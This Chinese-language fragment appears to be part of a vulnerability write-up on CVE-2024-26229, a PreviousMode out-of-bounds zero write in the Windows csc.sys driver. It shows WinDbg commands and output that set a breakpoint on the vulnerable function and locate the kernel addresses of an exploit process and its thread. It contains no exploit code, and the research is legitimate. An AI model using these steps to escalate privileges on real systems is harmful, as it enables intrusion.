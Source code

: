 调试漏洞函数
------

### PreviousMode 越界写零

*   函数下断点

```
1: kd> !sym noisy
1: kd> !reload
1: kd> lm t n
1: kd> .reload /f csc.sys
1: kd> bp csc!CscDevFcbXXXControlFile
1: kd> g
Breakpoint 0 hit
csc!CscDevFcbXXXControlFile:
fffff800`79869e30 4c8bdc          mov     r11,rsp

```

*   获取进程的 EPROCESS 结构的内核地址

```
1: kd> !process 0 0 CVE-2024-26229-DEBUG.exe
PROCESS ffffcb8381e8d080
    SessionId: 1  Cid: 0b74    Peb: d4d6503000  ParentCid: 114c
    DirBase: 1bf522002  ObjectTable: ffff81028a34b180  HandleCount:  37.
    Image: CVE-2024-26229-EXP.exe

```

*   查看详细信息，获取线程内核地址

```
1: kd> !process ffffcb8381e8d080 7
PROCESS ffffcb8381e8d080
    SessionId: 1  Cid: 04c8    Peb: 96def11000  ParentCid: 114c
    DirBase: 1aba81002  ObjectTable: ffff81028a345c80  HandleCount:  37.
    Image: CVE-2024-26229-EXP.exe
    VadRoot ffffcb83831a8c90 Vads 28 Clone 0 Private 1062. Modified 0. Locked 0.
    DeviceMap ffff810284057490
    Token                             ffff810287cb9870
    ElapsedTime                       00:00:00.141
    UserTime                          00:00:00.000
    KernelTime                        00:00:00.000
    QuotaPoolUsage[PagedPool]         22504
    QuotaPoolUsage[NonPagedPool]      4072
    Working Set Sizes (now,min,max)  (1669, 50, 345) (6676KB, 200KB, 1380KB)
    PeakWorkingSetSize                1630
    VirtualSize                       4148 Mb
    PeakVirtualSize                   4148 Mb
    PageFaultCount                    2139
    MemoryPriority                    BACKGROUND
    BasePriority                      8
    CommitCharge                      1533
    Job                               ffffcb8380fe9060
 
        THREAD ffffcb837fc6e080  Cid 04c8.0160  Teb: 00000096def12000 Win32Thread: 0000000000000000 RUNNING on processor 1
        IRP List:
            ffffcb8381150460: (0006,0430) Flags: 00060800  Mdl: 00000000
        Not impersonating
        DeviceMap                 ffff810284057490
        Owning Process            ffffcb8381e8d080       Image:         CVE-2024-26229-EXP.exe
        Attached Process          N/A            Image:         N/A
        Wait Start TickCount      1523195        Ticks: 0
        Context Switch Count      138            IdealProcessor: 0            
```
